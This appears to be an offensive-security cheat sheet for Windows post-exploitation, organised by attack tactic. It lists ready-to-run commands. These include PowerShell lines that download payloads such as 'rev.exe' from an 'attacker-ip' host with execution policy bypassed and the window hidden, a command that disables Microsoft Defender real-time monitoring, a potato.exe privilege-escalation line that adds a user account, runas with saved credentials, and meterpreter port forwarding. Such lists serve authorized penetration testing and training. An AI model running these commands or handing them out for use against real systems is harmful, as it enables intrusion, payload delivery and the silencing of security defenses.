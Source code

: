 ## privileged cmd execution
- `runas /user:administrator /savecreds cmd.exe`

---

## powershell
- serivce: windows
- tactics: execution

### powershell upload
- `powershell Invoke-WebRequest "http://attacker-ip:81/x41.csproj" -OutFile "C:\ProgramData\x41.csproj"`
- `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -Command "(New-Object System.Net.WebClient).DownloadFile('http://attacker-ip/rev.exe', 'C:\ProgramData\')"`

### powershell disable av 
- `Set-MpPreference -DisableRealtimeMonitoring $true`

---

# potato.exe
- serivce: windows
- tactics: privilege_escalation

## hot potato usage
- `potato.exe -ip <local ip> -cmd "c:\\windows\\system32\\cmd.exe /K net users username password /add" -disable_exhaust true`

---

# Metasploit
- serivce: all
- tactics: command_and_control

## Port forward using meterpreter
- `portfwd add -l <attacker port> -p <victim port> -r <victim ip>`
- `portfwd add -l 3306 -p 3306 -r 192.168.1.101`

---

# msfvenom
- serivce: all
- tactics: weaponization
